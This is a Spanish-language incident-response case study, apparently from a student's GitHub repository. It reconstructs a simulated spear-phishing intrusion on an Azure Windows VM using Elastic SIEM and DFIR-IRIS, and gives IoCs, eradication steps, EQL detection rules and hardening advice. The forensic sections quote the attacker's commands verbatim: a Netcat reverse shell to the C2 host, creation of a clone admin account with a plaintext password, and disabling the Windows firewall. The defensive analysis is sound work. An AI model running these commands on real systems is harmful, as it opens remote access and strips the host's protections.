


# 🛡️ IR Case Study #2 — "Operación Terra": De un PDF falso al control total del host

> Investigación forense completa de una campaña de **Spear Phishing** que derivó en **Reverse Shell**, escalación de privilegios, evasión de defensas y exfiltración de datos en una VM Windows sobre Azure. Detectada, correlacionada y contenida con **Elastic SIEM** (EQL + Machine Learning) y gestionada en **DFIR-IRIS**.


| | |
|---|---|
| **Analista / Autor** | Jhonny Rene Valdivieso Pajon |
| **Equipo de Respuesta** | CyberShield |
| **Cliente afectado** | Terra |
| **Caso DFIR-IRIS** | `Case #2` — Robo de credenciales / Campaña Spear Phishing |
| **Activo comprometido** | `technique-test` (Windows VM · Azure · `eastus2` · `10.0.1.4`) |
| **Usuario víctima** | `rogelio` |
| **Ventana del incidente** | 09/07/2024 21:44 → 10/07/2024 02:50 (**~5 h 06 min**) |
| **Marco de respuesta** | NIST SP 800-61 (PICERL) |
| **Stack** | Elastic SIEM (EQL + ML Engine), DFIR-IRIS, VirusTotal, PowerShell |

> ⚠️ **Alcance y procedencia de los datos**
> Ejercicio académico de respuesta a incidentes sobre un **entorno simulado y controlado**, provisto por la institución formativa. La telemetría procede de una instancia de **Elastic SIEM preconfigurada** con **18 alertas** correspondientes a un incidente simulado. La gestión del caso se realizó sobre una instancia de **DFIR-IRIS desplegada por el equipo mediante Docker**, y el enriquecimiento de IoCs con **VirusTotal**.
> El trabajo del analista consistió en el **triaje, la correlación y la reconstrucción forense**: de 18 alertas en bruto a una cadena de ataque de 8 eventos encadenados, con su mapeo ATT&CK, sus IoCs y su plan de respuesta.
> El entorno de laboratorio ya no está disponible; la evidencia se conserva en forma de capturas y de los informes en `docs/`. **No se incluye ningún binario malicioso en este repositorio.**

---

## 📌 1. Resumen Ejecutivo

Un empleado de Terra (`rogelio`) recibió un correo de **spear phishing** desde el dominio suplantado `outluok.co` con el asunto *"¡¡Urgente!! Tu cuenta puede estar en peligro"*. La interacción con el señuelo desencadenó una cadena de intrusión completa en **poco más de cinco horas**:

1. Escritura de un binario inicial en la Papelera de Reciclaje a través de `outlook.exe`.
2. Descarga y ejecución de `Historial_Pagos_Visa.pdf.exe` mediante **File Name Masquerading** (doble extensión).
3. Establecimiento de una **Reverse Shell interactiva** con Netcat hacia el C2 `89.44.9.243:8080`.
4. Creación de una **cuenta local clon** llamada `rogelio` y su promoción al grupo `Administrators`.
5. **Desactivación total del Firewall de Windows** vía PowerShell.
6. **Exfiltración de datos** detectada por el motor de **Machine Learning** de Elastic SIEM.
7. **Persistencia avanzada** mediante modificación de llaves `Run` del registro.

**Resultado de la respuesta:** el canal de C2 fue bloqueado en el perímetro, el host aislado, los artefactos erradicados y la cuenta clon eliminada. Se entregó un plan de hardening (SPF/DKIM/DMARC, AppLocker sobre `%TEMP%`/`AppData`, restricción de PowerShell) y **cinco reglas de detección nuevas** para cerrar los huecos de visibilidad explotados.

**Lección central:** ninguna alerta individual contaba la historia. La creación del usuario clon puntuaba **Risk Score 21 (Low)** — el mismo evento que, correlacionado, resultó ser la bisagra de todo el compromiso.

### 1.1 Punto de partida: 18 alertas en bruto


*Figura 1 — Cola de alertas de partida: 18 alertas abiertas (12 Critical · 3 Medium · 3 Low), el 100% concentradas en el host `technique-test`.*

| Distribución de la cola inicial | |
|---|---|
| Total de alertas | **18** |
| Critical / Medium / Low | 12 / 3 / 3 |
| Host afectado | `technique-test` (100%) |
| Reglas implicadas | Malware Detection Alert (7), User Account Creation via PowerShell (3), Malicious Behavior: Evasion via File (2), Malicious Behavior: Suspicious String (2), Windows Firewall Disabled, User Account Added to Privileged Group, Potential Data Exfiltration |

El trabajo de análisis consistió en reducir esas **18 alertas** —con duplicados, reintentos del adversario y eventos hijos de una misma acción— a una **cadena causal de 8 eventos**, cada uno con su técnica ATT&CK, su artefacto y su relación padre-hijo con el anterior. La deduplicación no es cosmética: es lo que convierte una cola de alertas en una narrativa de intrusión defendible ante un cliente.

---

## 🗺️ 2. Arquitectura y Flujo del Ataque

### 2.1 Kill Chain completa



### 2.2 Diagrama de secuencia — relación proceso/actor



---

## 🎯 3. Matriz de Mapeo MITRE ATT&CK

| # | Táctica | Técnica (ID) | Timestamp (UTC) | Evento observado | Artefacto / Comando |
|:-:|---|---|---|---|---|
| 1 | Initial Access | Spearphishing Attachment — **T1566.001** | `09/07/2024 21:44:02` | `outlook.exe` escribe binario en la papelera | `C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\$RD60126.exe` |
| 2 | Defense Evasion | Masquerading: Double File Extension — **T1036.003** | `09/07/2024 21:47:15` | Descarga vía `msedge.exe` con doble extensión | `C:\Users\rogelio\Downloads\Historial_Pagos_Visa.pdf.exe` |
| 3 | Execution | User Execution: Malicious File — **T1204.002** | `09/07/2024 21:47:15` | El usuario ejecuta el binario; se carga en memoria | `process.name = Historial_Pagos_Visa.pdf.exe` |
| 4 | Execution | Command & Scripting: PowerShell — **T1059.001** | `09/07/2024 21:51:59` | Netcat lanza `powershell.exe` como shell remota | `nc.exe 89.44.9.243 -e powershell.exe 8080` |
| 5 | Command & Control | Non-Application Layer Protocol — **T1095** | `09/07/2024 21:51:59` | Reverse Shell TCP saliente | `89.44.9.243:8080` |
| 6 | Persistence | Create Account: Local Account — **T1136.001** | `09/07/2024 23:02:06` | Creación de cuenta clon homónima | `New-LocalUser 'rogelio' -Password (...)` |
| 7 | Privilege Escalation | Valid Accounts: Local Accounts — **T1078.003** | `09/07/2024 23:13:21` | Cuenta clon añadida a `Administrators` | `group.name = Administrators` |
| 8 | Defense Evasion | Impair Defenses: Disable Firewall — **T1562.001** | `09/07/2024 23:27:47` | Firewall apagado en los 3 perfiles | `Set-NetFirewallProfile -Enabled False -All` |
| 9 | Exfiltration | Exfiltration Over C2 Channel — **T1041** | `10/07/2024 02:44:50` | Anomalía de volumen saliente detectada por ML | `ded_high_sent_bytes_destination_ip` · threshold `75` |
| 10 | Persistence | Boot/Logon Autostart: Registry Run Keys — **T1547.001** | `10/07/2024 02:49:53` | Escritura de valor sospechoso en llave `Run` | `Suspicious String Value Written to Registry Run Key` · Risk 99 |

---

## 🔬 4. Análisis Forense Detallado por Fases

### 🚨 Evento 1 — Initial Access: malware escrito en la Papelera vía Outlook
**`Jul 9, 2024 @ 21:44:02.000` · Risk Score `99` · Critical · rule type `query`**


*Figura 2 — Evento 1: `outlook.exe` como proceso responsable de la escritura de `$RD60126.exe` en `C:\$Recycle.Bin`. Risk Score 99.*

`outlook.exe`, un binario legítimo y firmado, generó la escritura de un ejecutable en una ruta oculta del sistema. El uso de `C:\$Recycle.Bin` como *staging area* es un patrón clásico de evasión: es una carpeta de sistema, oculta por defecto, frecuentemente excluida de escaneos superficiales y raramente inspeccionada por el usuario.

```json
{
  "@timestamp": "2024-07-09T21:44:02.000Z",
  "host.name": "technique-test",
  "user.name": "rogelio",
  "process.name": "outlook.exe",
  "process.executable": "C:\\Program Files\\Microsoft Office\\root\\Office16\\outlook.exe",
  "file.name": "$RD60126.exe",
  "file.directory": "C:\\$Recycle.Bin\\S-1-5-21-3250139449-4025979577-2541746667-1001",
  "file.hash.sha256": "5f7e5e76ca74447126ef5bccb0584342dc0890e1a65e4cac7f84281230df0728",
  "kibana.alert.rule.name": "Malware Detection Alert",
  "kibana.alert.risk_score": 99
}
```

**Artefacto de correo analizado:** `¡¡Urgente!! Tu cuenta puede estar en peligro.eml` — remitente apócrifo sobre el dominio typosquatted **`outluok.co`** (transposición de caracteres sobre `outlook`, más TLD alternativo). El SID `S-1-5-21-...-1001` confirma que la escritura ocurrió bajo el contexto del primer usuario no administrativo del equipo.

---

### 🚨 Evento 2 — Defense Evasion + Execution: doble extensión vía Edge
**`Jul 9, 2024 @ 21:47:15.572` · Risk Score `99` · Critical**


*Figura 3 — Evento 2: descarga vía `msedge.exe` de `Historial_Pagos_Visa.pdf.exe`. El `file.hash.sha256` coincide con el del Evento 1.*

Tres minutos después, `msedge.exe` materializó el payload en la carpeta de descargas del perfil. El binario emplea **File Name Masquerading (T1036.003)**: con la opción *"Ocultar las extensiones de archivo para tipos de archivo conocidos"* activada por defecto en Windows, el usuario ve `Historial_Pagos_Visa.pdf` y confía en el icono. El nombre no es casual — apela a un contexto financiero plausible y urgente.

```powershell
# Artefacto en disco
C:\Users\rogelio\Downloads\Historial_Pagos_Visa.pdf.exe

# process.name observado tras la interacción del usuario (T1204.002)
Historial_Pagos_Visa.pdf.exe
```

> 🔍 **Pivote forense clave:** el `file.hash.sha256` de este binario es **idéntico** al del Evento 1 (`5f7e5e76ca…`). Confirma que `$RD60126.exe` y `Historial_Pagos_Visa.pdf.exe` son **el mismo artefacto**: el `$RD` de la papelera es el residuo del adjunto original, y la descarga vía navegador fue la vía de entrega efectiva. Un único hash amarra ambos vectores en la misma campaña.

---

### 🚨 Evento 3 — Execution / C2: Reverse Shell con Netcat
**`Jul 9, 2024 @ 21:51:59.136` · Risk Score `99` · Critical**


*Figura 4 — Evento 3: `nc.exe` extraído en `%TEMP%\3\` con `Historial_Pagos_Visa.pdf.exe` como proceso padre.*

El payload actuó como *dropper*: extrajo `nc.exe` en el directorio temporal del perfil y lo invocó apuntando a la infraestructura del adversario.

```bash
C:\Users\rogelio\AppData\Local\Temp\3\nc.exe 89.44.9.243 -e powershell.exe 8080
```

Desglose del comando:

| Componente | Función |
|---|---|
| `89.44.9.243` | IP del servidor C2 del adversario |
| `-e powershell.exe` | Redirige `stdin`/`stdout`/`stderr` de PowerShell al socket |
| `8080` | Puerto de destino — HTTP alternativo, habitualmente permitido en egress |

El flag `-e` (*gaping security hole*, según la propia documentación de Netcat) convierte una utilidad de red en un **canal interactivo bidireccional**. La elección del puerto 8080 y la ejecución desde `%TEMP%` son decisiones deliberadas de evasión: tráfico saliente que se mimetiza con navegación web, desde una ruta escribible por usuarios sin privilegios.

**Cadena de procesos:** `Historial_Pagos_Visa.pdf.exe` ➡️ `nc.exe`

---

### 🚨 Evento 4 — Persistence: creación de cuenta local clon
**`Jul 9, 2024 @ 23:02:06.965` · Risk Score `21` · **Low** · rule type `eql`**


*Figura 5 — Evento 4: `process.args` completos del `New-LocalUser`. Nótese el Risk Score 21 (Low) y el tipo de regla `eql`.*

Setenta minutos de silencio (`21:51` → `23:02`) separan el C2 de la siguiente acción: intervalo compatible con **operación manual** — reconocimiento interactivo del adversario sobre la shell obtenida.

```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -Command `
  New-LocalUser 'rogelio' -Password (ConvertTo-SecureString 'password2$' -AsPlainText -Force)
```

Tres decisiones tácticas del adversario:

1. **No hubo fuerza bruta.** Con la shell ya activa, crear una identidad nueva es más silencioso y más fiable que atacar credenciales existentes.
2. **Mimetismo onomástico.** El nombre elegido, `rogelio`, coincide con el del usuario legítimo del host. En una auditoría superficial de cuentas, la entrada anómala pasa desapercibida entre identidades esperadas.
3. **Abuso de `-AsPlainText -Force`.** Windows exige un `SecureString` para `New-LocalUser`; estos modificadores fuerzan la conversión desde texto plano, único modo de fijar una contraseña de forma no interactiva desde una consola remota — y precisamente por eso, **una señal de alta fidelidad** de automatización o control remoto.

> ⚠️ **Hallazgo crítico de detection engineering:** esta alerta puntuó **21 (Low)**. Es el evento bisagra de todo el incidente y habría sido triado como ruido en una cola priorizada por severidad. Ver §7.1 para la regla de correlación propuesta.

---

### 🚨 Evento 5 — Privilege Escalation: promoción al grupo Administrators
**`Jul 9, 2024 @ 23:13:21.000` · Risk Score `47` · Medium · rule type `eql`**


*Figura 6 — Evento 5: `group.name = Administrators` sobre el host `technique-test` en `azure/eastus2`.*

Once minutos después, la cuenta clon fue incorporada al grupo local de alta seguridad.

```json
{
  "@timestamp": "2024-07-09T23:13:21.000Z",
  "kibana.alert.rule.name": "User Account Added to Privileged Group",
  "kibana.alert.rule.type": "eql",
  "group.name": "Administrators",
  "user.name": "rogelio",
  "host.name": "technique-test",
  "cloud.provider": "azure",
  "cloud.region": "eastus2",
  "kibana.alert.risk_score": 47
}
```

Con privilegios administrativos consolidados el adversario obtiene capacidad para modificar políticas de seguridad y registros de auditoría locales, ejecutar herramientas que requieren acceso a kernel o inyección en memoria, y preparar movimiento lateral hacia otros activos del entorno Azure. La detección se originó en una regla **EQL** que vigila de forma permanente los cambios de IAM sobre el host.

---

### 🚨 Evento 6 — Defense Evasion: apagado total del Firewall de Windows
**`Jul 9, 2024 @ 23:27:47.074` · Risk Score `47` · Medium · rule type `eql`**


*Figura 7 — Evento 6: `Set-NetFirewallProfile -Enabled False -All` capturado en `process.args`.*

```powershell
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -Command `
  Set-NetFirewallProfile -Enabled False -All
```

El modificador `-All` apaga simultáneamente los perfiles **Domain, Private y Public**. El impacto es doble y a menudo se subestima el segundo:

- **Pérdida de control:** desaparece el filtrado local, habilitando cualquier backdoor secundario, escaneo interno o canal alternativo sin restricción.
- **Pérdida de telemetría:** dejan de generarse los logs de bloqueo del firewall. El adversario no solo abre la puerta, **apaga la cámara que la vigila**.

Esta acción es característica de una **fase de preparación**: precede sistemáticamente al despliegue de persistencia redundante o al inicio de movimiento lateral.

---

### 🚨 Evento 7 — Exfiltration: anomalía de volumen detectada por Machine Learning
**`Jul 10, 2024 @ 02:44:50.563` · Risk Score `47` · Medium · rule type `machine_learning`**


*Figura 8 — Evento 7: alerta de tipo `machine_learning`, job `ded_high_sent_bytes_destination_ip` con `anomaly_threshold` 75.*

```json
{
  "kibana.alert.rule.name": "Potential Data Exfiltration Activity to an Unusual IP Address",
  "kibana.alert.rule.type": "machine_learning",
  "kibana.alert.rule.parameters.machine_learning_job_id": "ded_high_sent_bytes_destination_ip",
  "kibana.alert.rule.parameters.anomaly_threshold": 75,
  "source.ip": "10.0.1.4",
  "destination.ip": "168.63.129.16",
  "host.name": "technique-test"
}
```

Esta alerta **no responde a ninguna firma**. El job `ded_high_sent_bytes_destination_ip` construye una línea base del volumen saliente por IP de destino y dispara cuando el *anomaly score* supera 75. Es detección puramente conductual: el adversario no ejecutó nada "malicioso" reconocible — simplemente movió muchos más bytes de los normales hacia un destino inhabitual. Ninguna regla basada en firmas habría visto esto.

> 🧠 **Nota del analista — hipótesis alternativa (documentada por rigor):** la IP de destino `168.63.129.16` es una **IP de plataforma de Microsoft Azure** (WireServer / *host node* usado para DHCP, DNS, sondas de balanceo y comunicación del agente invitado). En una investigación de producción esto obligaría a **validar el hallazgo antes de concluir exfiltración**: contrastar `network.bytes` contra la línea base del propio agente, revisar el proceso emisor (`process.name` asociado al flujo) y descartar tráfico legítimo de la plataforma. En este caso el hallazgo se mantiene como **exfiltración probable** por su encaje temporal en la cadena — llega tras la desactivación del firewall y entre dos intentos de persistencia — pero se documenta explícitamente la necesidad de corroboración. **Un IoC sin validación de contexto es una fuente de falsos positivos, no de inteligencia.**

---

### 🚨 Evento 8 — Persistence: modificación de llaves Run del Registro
**`Jul 10, 2024 @ 02:49:53.336` · Risk Score `99` · Critical · rule type `query`**
*(el SIEM registró un primer intento a las `02:41:30.509` y un segundo a las `02:49:53.336` — insistencia activa del operador)*


*Figura 9 — Evento 8: `rule.description` de la detección sobre llaves `Run`/`RunOnce`. Risk Score 99.*

```
Regla disparada : Suspicious String Value Written to Registry Run Key
Descripción     : Identifies when suspicious values are written to Run and RunOnce
                  registry keys via signed binaries.
Proceso padre   : C:\Users\rogelio\AppData\Local\Temp\3\nc.exe 89.44.9.243 -e powershell.exe 8080
Proceso hijo    : C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
```

La **correlación padre-hijo es la prueba forense definitiva** del control remoto interactivo: `nc.exe` sigue siendo el proceso originador **cinco horas después** del compromiso inicial, forzando a PowerShell a escribir en el registro. No es un script automatizado que terminó y se fue; es un operador humano con las manos en el teclado.

Al persistir en las llaves `Run`, el adversario asegura la reejecución tras reinicios, caídas de red o cierres de sesión — cubriendo el riesgo de perder la shell activa. Combinado con la cuenta clon administrativa del Evento 4, el atacante contaba ya con **tres vías de retorno independientes**.

---

### 🗂️ 4.9 Gestión del caso en DFIR-IRIS

Todos los eventos se consolidaron en una **timeline unificada** dentro de DFIR-IRIS (Case #2), con IoCs y activos vinculados a cada entrada. Esta es la vista que sostiene el informe entregado al cliente.


*Figura 10 — Acceso inicial, masquerading y establecimiento del canal de C2, con IoCs y tags asociados a cada evento.*


*Figura 11 — Persistencia por cuenta clon, escalación de privilegios y desactivación del firewall.*


*Figura 12 — Persistencia en el registro y exfiltración detectada por Machine Learning.*

> 📌 **Nota metodológica sobre timestamps:** la timeline de IRIS refleja las horas de registro manual del analista, que en algunos eventos difieren de los `@timestamp` del SIEM (p. ej. Netcat: `21:47:27` en IRIS frente a `21:51:59` en Elastic). **La fuente de verdad forense es siempre la telemetría del SIEM**; las entradas de IRIS son la narrativa de gestión del caso. En una investigación de producción esta divergencia se documenta explícitamente para evitar que se cuestione la cadena de custodia.

---

## 🎯 5. Indicadores de Compromiso (IoCs)

> IPs defanged para transporte seguro. Formato listo para ingesta en **MISP / OpenCTI**.

| Tipo | Valor | Contexto | Técnica ATT&CK |
|---|---|---|---|
| `sha256` | `5f7e5e76ca74447126ef5bccb0584342dc0890e1a65e4cac7f84281230df0728` | Payload principal (`$RD60126.exe` = `Historial_Pagos_Visa.pdf.exe`) | T1566.001 / T1036.003 |
| `sha256` | `b3b207dfab2f429cc352ba125be32a0cae69fe4bf8563ab7d0128bba8c57a71c` | Netcat (`nc.exe`) — herramienta de C2 | T1059.001 / T1095 |
| `filename` | `Historial_Pagos_Visa.pdf.exe` | Señuelo con doble extensión | T1036.003 |
| `filename` | `$RD60126.exe` | Artefacto en Papelera de Reciclaje | T1566.001 |
| `filename` | `nc.exe` | Binario Netcat en `%TEMP%` | T1095 |
| `filepath` | `C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\` | Staging inicial | T1566.001 |
| `filepath` | `C:\Users\rogelio\Downloads\` | Ubicación de descarga | T1204.002 |
| `filepath` | `C:\Users\rogelio\AppData\Local\Temp\3\` | Directorio de ejecución de Netcat | T1059.001 |
| `ip-dst` | `89[.]44[.]9[.]243` | Servidor de Comando y Control | T1095 |
| `port` | `8080/tcp` | Puerto de la Reverse Shell | T1095 |
| `ip-dst` | `168[.]63[.]129[.]16` | Destino de la anomalía de volumen ⚠️ *ver §4 Evento 7 — requiere validación* | T1041 |
| `ip-src` | `10[.]0[.]1[.]4` | IP interna del host comprometido | — |
| `domain` | `outluok[.]co` | Dominio typosquatted del remitente | T1566.001 |
| `email-subject` | `¡¡Urgente!! Tu cuenta puede estar en peligro` | Asunto del señuelo de phishing | T1566.001 |
| `account` | `rogelio` (cuenta local clon) | Persistencia por identidad | T1136.001 |
| `text` | `password2$` | Credencial estática de la cuenta clon | T1136.001 |
| `command` | `nc.exe 89.44.9.243 -e powershell.exe 8080` | Establecimiento de Reverse Shell | T1059.001 |
| `command` | `New-LocalUser 'rogelio' -Password (ConvertTo-SecureString 'password2$' -AsPlainText -Force)` | Creación de cuenta clon | T1136.001 |
| `command` | `Set-NetFirewallProfile -Enabled False -All` | Evasión de defensas | T1562.001 |
| `hostname` | `technique-test` | Activo comprometido (Azure `eastus2`) | — |

---

## 🧯 6. Respuesta al Incidente (NIST SP 800-61 · PICERL)

### 6.1 Contención

| Acción | Detalle | Justificación |
|---|---|---|
| **Bloqueo perimetral** | Regla de denegación hacia `89.44.9.243` en el firewall perimetral | Corta el canal de C2 y detiene la exfiltración en curso |
| **Aislamiento del host** | `technique-test` desconectado de la red corporativa | Evita movimiento lateral y preserva el estado del sistema |
| **Preservación de evidencia** | Captura de estado previa al saneamiento | El aislamiento precede al borrado: primero evidencia, luego limpieza |

### 6.2 Erradicación

```powershell
# 1. Eliminación de artefactos maliciosos
Remove-Item "C:\Users\rogelio\Downloads\Historial_Pagos_Visa.pdf.exe" -Force
Remove-Item "C:\Users\rogelio\AppData\Local\Temp\3\nc.exe" -Force
Remove-Item "C:\$Recycle.Bin\S-1-5-21-3250139449-4025979577-2541746667-1001\$RD60126.exe" -Force

# 2. Eliminación de la cuenta clon y su privilegio
Remove-LocalGroupMember -Group "Administrators" -Member "rogelio" -ErrorAction SilentlyContinue
Remove-LocalUser -Name "rogelio"   # cuenta clon creada por el adversario

# 3. Limpieza de persistencia en el registro
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
Remove-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "<valor_malicioso>"

# 4. Reactivación del firewall — vía GPO, no localmente
Set-NetFirewallProfile -Profile Domain,Private,Public -Enabled True
```

> La reactivación del firewall se aplicó **mediante GPO** y no localmente: si el host sigue comprometido, un cambio local puede ser revertido por el adversario. La política de dominio se reimpone en cada refresco.

### 6.3 Recuperación

- Escaneo antimalware profundo y validación de integridad de servicios críticos.
- Cambio obligatorio de credenciales del usuario legítimo `rogelio` (asumidas comprometidas por la sesión interactiva del adversario).
- Auditoría completa de cuentas locales, grupos privilegiados, tareas programadas y servicios del host.
- Reconexión controlada a la red con monitorización reforzada durante el periodo de observación.

### 6.4 Lecciones aprendidas

| Hueco identificado | Corrección aplicada |
|---|---|
| Correo suplantado (`outluok.co`) alcanzó la bandeja | SPF / DKIM / DMARC en modo `reject` + bloqueo de dominios lookalike |
| Ejecución de binarios desde `%TEMP%` y `AppData` | AppLocker / WDAC con reglas de ruta (§7.2) |
| Creación de admin local alertada como `Low` (21) | Regla de correlación en secuencia (§7.1) |
| Usuario estándar pudo apagar el firewall | Restricción de PowerShell + firewall gestionado exclusivamente por GPO |
| Netcat ejecutable sin restricción | Bloqueo de herramientas de red por hash y por nombre |

---

## 🔧 7. Estrategia de Hardening y Reglas de Detección

### 7.1 Reglas EQL para Elastic SIEM

**① Correlación crítica — creación de cuenta + escalada a Administrators**
*Convierte dos alertas de baja severidad (21 y 47) en una única alerta crítica. Es la regla que este incidente demuestra imprescindible.*

```eql
sequence by host.name with maxspan=1h
  [ process where event.type == "start"
      and process.name : "powershell.exe"
      and process.args : "New-LocalUser" ]
  [ iam where event.action : ("added-member-to-group", "user-member-enumerated")
      and group.name : ("Administrators", "Administradores") ]
```

**② Reverse Shell con Netcat — ejecución con redirección de proceso**

```eql
process where event.type == "start"
  and process.name : ("nc.exe", "ncat.exe", "netcat.exe", "nc64.exe")
  and process.args : ("-e", "-c", "--exec")
```

**③ Ejecución con doble extensión desde rutas de usuario**

```eql
process where event.type == "start"
  and process.executable : (
        "C:\\Users\\*\\Downloads\\*",
        "C:\\Users\\*\\AppData\\Local\\Temp\\*",
        "C:\\$Recycle.Bin\\*")
  and process.name regex~ """.*\.(pdf|doc|docx|xls|xlsx|jpg|png|txt|zip)\.(exe|scr|bat|cmd|js)"""
```

**④ Desactivación del firewall vía PowerShell**

```eql
process where event.type == "start"
  and process.name : ("powershell.exe", "pwsh.exe")
  and process.args : ("Set-NetFirewallProfile", "netsh")
  and process.args : ("False", "off", "disable")
```

**⑤ Escritura en Run Keys desde proceso inusual**

```eql
registry where event.type == "change"
  and registry.path : (
        "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\*",
        "HKLM\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce\\*",
        "HKEY_USERS\\*\\Software\\Microsoft\\Windows\\CurrentVersion\\Run\\*")
  and not process.executable : (
        "C:\\Windows\\System32\\*",
        "C:\\Program Files\\*",
        "C:\\Program Files (x86)\\*")
```

**⑥ Escritura de ejecutables en la Papelera de Reciclaje**

```eql
file where event.type : ("creation", "change")
  and file.path : "C:\\$Recycle.Bin\\*"
  and file.extension : ("exe", "dll", "scr", "ps1", "bat")
```

### 7.2 Políticas GPO / AppLocker

| Control | Implementación |
|---|---|
| **Bloqueo de ejecución en rutas de usuario** | Regla AppLocker `Deny` sobre `%OSDRIVE%\Users\*\AppData\Local\Temp\*`, `%OSDRIVE%\Users\*\Downloads\*` y `%OSDRIVE%\$Recycle.Bin\*` para el grupo `Everyone` |
| **Firewall inmutable para el usuario** | `Computer Configuration → Policies → Windows Settings → Security Settings → Windows Defender Firewall`; el perfil se impone por GPO y se revierte en cada refresco |
| **PowerShell restringido** | Constrained Language Mode para usuarios estándar + **Script Block Logging** (Event ID 4104) y Module Logging habilitados |
| **Bloqueo de herramientas ofensivas** | Reglas AppLocker por **hash** (`b3b207df…`) y por nombre (`nc.exe`, `ncat.exe`, `psexec.exe`) |
| **Higiene de extensiones** | Desactivar por GPO *"Ocultar las extensiones de archivo para tipos de archivo conocidos"* — neutraliza directamente T1036.003 |
| **Autenticación de correo** | SPF `-all`, DKIM y **DMARC en `p=reject`**; bloqueo activo de dominios lookalike sobre la marca corporativa |
| **Concienciación** | Simulacros de phishing periódicos centrados en urgencia artificial y doble extensión |

---

## 📊 8. Conclusiones

**5 horas y 6 minutos** separaron el clic del usuario de la última acción de persistencia del adversario. Ese es el presupuesto real de un SOC frente a este tipo de intrusión.

Tres conclusiones que este caso deja documentadas:

1. **La severidad individual miente; la secuencia no.** El evento más determinante de toda la cadena (`New-LocalUser`) puntuó **21/100**. Un SOC que triara estrictamente por Risk Score habría descubierto la intrusión al recibir la alerta de exfiltración — casi cuatro horas más tarde.
2. **La detección conductual cubre lo que las firmas no ven.** La exfiltración no disparó ninguna regla estática: la vio un modelo de ML que conocía la línea base de tráfico saliente del host.
3. **El registro es un artefacto de primera clase.** La correlación padre-hijo (`nc.exe` → `powershell.exe`) sobre las llaves `Run` fue la evidencia irrefutable de que había un operador humano activo, no un script.

---

## 📁 Estructura del repositorio

```
.
├── README.md                    # Este documento — análisis forense completo
├── docs/
│   ├── informe-respuesta-incidentes-caso-terra.pdf
│   └── bitacora-investigacion-caso-terra.pdf
├── assets/screenshots/          # Evidencia visual (Elastic SIEM + DFIR-IRIS)
├── detections/                  # 6 reglas EQL propuestas, listas para desplegar
├── iocs/
│   └── iocs.csv                 # IoCs para ingesta en MISP / OpenCTI
└── hardening/
    └── applocker-gpo-baseline.md
```

---

## 📚 Referencias

- [MITRE ATT&CK — Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [NIST SP 800-61 Rev. 2 — Computer Security Incident Handling Guide](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final)
- [Elastic Security — EQL Syntax Reference](https://www.elastic.co/guide/en/elasticsearch/reference/current/eql-syntax.html)
- [Elastic Security — Anomaly Detection Jobs](https://www.elastic.co/guide/en/security/current/prebuilt-ml-jobs.html)
- [DFIR-IRIS — Documentation](https://docs.dfir-iris.org/)

---

<div align="center">

**Jhonny Rene Valdivieso Pajon** · Incident Response & Threat Detection
Equipo CyberShield · DFIR-IRIS Case #2

